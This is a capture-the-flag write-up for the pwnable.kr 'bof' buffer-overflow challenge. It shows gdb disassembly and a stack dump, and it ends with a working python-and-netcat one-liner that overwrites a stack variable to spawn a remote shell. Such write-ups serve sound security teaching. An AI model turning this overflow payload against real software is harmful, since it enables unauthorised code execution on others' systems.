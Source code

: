 ## Description

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof

Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Solution

In this challenge we should provide the value **0xcafebabe** for **key** variable to spawn a shell, but this variable is not normally in our control.
when we look at the **fucn()** code we see the **gets()** function is used as input function for **overflowme** variable and this is where we should smash the stack :)

I open the program with **gdb** debugger and disassemble the **func()** function.

```
(gdb) disass func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e3b590 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e3ab40 <gets>
=> 0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7e10620 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e3b590 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7edd4e0 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
```
We set a memory breakpoint on the comparison instruction line.
```
(gdb) break *0x56555654
 Breakpoint 1 at 0x56555654
```
We run the program again with **"AAAA"** as input.
```
(gdb) r                                     
Starting program: /path/of/program
overflow me :                               
AAAA        

Breakpoint 1, 0x56555654 in func ()
```
We can see the stack with the following command.
```
(gdb) x/22xw $esp
0xffffd0f0:     0xffffd10c      0xffffd1f4      0xf7fac000      0xf7faaa80
0xffffd100:     0x00000000      0xf7fac000      0xf7ffc800      0x41414141
0xffffd110:     0x56556f00      0xf7fac000      0x00000001      0x5655549d
0xffffd120:     0xf7fac3fc      0x00040000      0x56556ff4      0xb82ae100
0xffffd130:     0x56556ff4      0xf7fac000      0xffffd158      0x5655569f
0xffffd140:     0xdeadbeef      0x00000000
```
we know the **func()** is initialized with 0xdeadbeef value and it's the current value of the **key** variable. we also know the value of **overflowme** variable (0x41414141). so when we calculate how many A (0x41) characters we should enter to override the **key** variable and write **0xcafebabe** into its address. 
so when we calculate the space between the **overflowme** variable and **key** variable we find that we need to enter 52 bytes (character) to start overriding the **key** variable. the payload to solve the challenge is **A&ast;52+0xcafebabe** but we type 0xcafebabe in reverse order because the system is little endian. the following command exploits the bof and gives you the shell to print the flag.
```
(python -c "print 'A'*52+'\xbe\xba\xfe\xca'" && cat) | nc pwnable.kr 9000
```

run the python code to get the flag. :)
